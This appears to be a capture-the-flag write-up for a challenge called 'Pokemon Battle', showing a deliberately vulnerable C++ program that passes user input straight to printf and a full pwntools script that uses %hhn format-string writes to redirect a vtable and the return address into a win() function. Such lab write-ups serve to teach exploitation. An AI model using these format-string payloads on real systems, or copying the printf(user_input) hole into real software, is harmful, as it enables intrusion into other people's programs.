 ## Pokemon Battle
![pokemon](images/pokemon.png)

### Description
>Author: Neobeo\
>Gary wants to challenge you to a virtual battle. Be sure to choose your pokemon well! Here's an early leak of the game, but you should know that it's incomplete and there's currently no way to win.\
>nc fun.chall.seetf.sg 50005\
>MD5: a07506f402f6a3b18ca8ee5f5642a570


### Gain Shell
Format string vuln challenge with given source code c++ for the challenge. The source code its look like this
```c++
// g++ pokemonbattle.cpp -w -o pokemonbattle
#include <iostream>

struct {
    char pokemon[13]; // longest pokemon name is 12 letters (Crabominable)
    virtual void Battle() {
        printf("Let the battle begin...\n");
        // @todo: implement an actual battle
        printf("Your pokemon was defeated. You blacked out!\n");
    }
    virtual void Play() {
        printf("Choose a pokemon: ");
        std::cin.getline(pokemon, sizeof pokemon);
        printf(pokemon);
        printf(", I choose you!\n");
        Battle();
    }
} battler;

int main() {
    battler.Play();
}

void win() {
    system("cat flag.txt");
}
```

The PIE was enabled, and we only have one formatstring with 13 size of input. Where to overwrite?\
In C++, we can overwrite **vtable** of **battler**. Look here at gdb:
![pokemon](images/pokemon2.png)
The program will `call rdx` and rdx come from **vtable of battler**, if we overwrite the vtable to another address and that address contains address of **win** then gameover! We got the shell. Simply our goal is like this

```
Before:
0x555555558150 (batler) -> 0x555555557d68 (vtable) -> 0x5555555551ea (Battle())

After:
0x555555558150 (batler) -> (any_address) -> (win())
``` 

So we need an address which contain address of win(). Because the PIE was enabled we need find the value near the addres of win. Luckily we have one.\
![pokemon](images/pokemon3.png)
Now how to overwrite the vtable? We only have one time formatstring. And the formatstring is in **BSS** not in stack, so we cant use technique like usual.\

Alright, first we need more than one formatstring, to do that we need overwrite vtable to **Play()** again.
![pokemon](images/pokemon4.png)

So we must overwrite just 1 bytes vtable from **0x68** to **0x70**. To do that because the address of battler is at offset 7 on formatstring. We can use that offset to overwrite the vtable.
![pokemon](images/pokemon5.png)
So if we input like `%7$n` on formatstring vuln. It will overwite to the inside of that address. For example we got leak address of **battler** with input `%7$p`. So if we input like `%10c%7$n` the address of **battler** will be like this `0x555555558150 (battler) -> 0x000000000000000a`. We just need ovewrite 1 bytes so we use **$hhn** instead of **$n**

```py
payload = f"%{0x70}c"
payload += "%7$hhn"
p.sendline(payload)
```

![pokemon](images/pokemon6.png)

Now we have unlimited formatstring. If you look at the stack rightnow the stack step back 0x20.

![pokemon](images/pokemon6.png)

Its because when we call **Play()** again the stack reduced by 0x20. Our goal is to overwrite address of return which is located at
`0x7fffffffdd78 -> 0x00005555555552b7 (return main+20)`. But we dont have that stack on any offset at formatstring.\
But we do have `0x7fffffffdd70` at offset 8 and `0x7fffffffdd80` at offset 12.

```
0x7fffffffdd50 -> 0x00007fffffffdd70 (offset 8)
0x7fffffffdd70 -> 0x00007fffffffdd80 (offset 12)
```

Like we overwrite the vtable before, if we do `%8$n` it will overwrite the address in `0x7fffffffdd70`. So how we do like this.
```
Overwrite value offset 8 to 0x78, %120c%8$hhn
The address will be like

0x7fffffffdd50 -> 0x00007fffffffdd70 (offset 8)
0x7fffffffdd70 -> 0x00007fffffffdd78 (offset 12)
0x7fffffffdd78 -> 0x00005555555552b7
```
So when we input %12$p it will become `0x00007fffffffdd78` with this we can overwrite the return address!. Oh I told before after we back to **Play()** again, the stack move 0x20, so the offset will be move everytime we do a formatstring. And found the correct offset for the addresss `0x00007fffffffdd78` is **16**.

```py
#overwrite vtable Batle() to Play()
payload = f"%{0x70}c"
payload += "%7$hhn"
p.sendline(payload)

#overwrite
payload = f"%{0x78}c"
payload += "%8$hhn"
p.sendline(payload)

p.sendline("%16$p")
#0x7fffffffdd78
```

Alright with this we can simply do the sametrick when we do `%16$n` it will overwrite the return address which is the **main()** function. After that just overwrite vtable back to **Battle()** and we got shell!. Because there's stack alignment error when call **win()** function. Instead of overwrite to start address of **win()** we overwrite to here
```bash
pwndbg> p &win
$1 = (<text variable, no debug info> *) 0x5555555552be <win()>
pwndbg> disass 0x5555555552be
Dump of assembler code for function _Z3winv:
   0x00005555555552be <+0>:	endbr64 
   0x00005555555552c2 <+4>:	push   rbp
   0x00005555555552c3 <+5>:	mov    rbp,rsp
   0x00005555555552c6 <+8>:	lea    rdi,[rip+0xdaa]        # overwrite to here
   0x00005555555552cd <+15>:	call   0x5555555550c0 <system@plt>
```
Overwrite to **0xc6**.\
Full script:

```py
from pwn import *
from sys import *

context.log_level = 'warning'
elf = context.binary = ELF("./pokemonbattle")
p = process("./pokemonbattle")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

HOST = 'fun.chall.seetf.sg'
PORT = 50005

cmd = """
b*0x555555555274
"""

if(argv[1] == 'gdb'):
	gdb.attach(p,cmd)
elif(argv[1] == 'rm'):
	p = remote(HOST,PORT)

#overwrite vtable Batle() to Play()
payload = f"%{0x70}c"
payload += "%7$hhn"
p.sendline(payload)

#overwrite
payload = f"%{0x78}c"
payload += "%8$hhn"
p.sendline(payload)

# p.sendline("%16$p")
# #0x7fffffffdd78

#gdb.attach(p,cmd)
payload = f"%{0xc6}c"
payload += "%16$hhn"
p.sendline(payload)


payload = f"%{0x68}c"
payload += "%7$hhn"
p.sendline(payload)
p.interactive()
```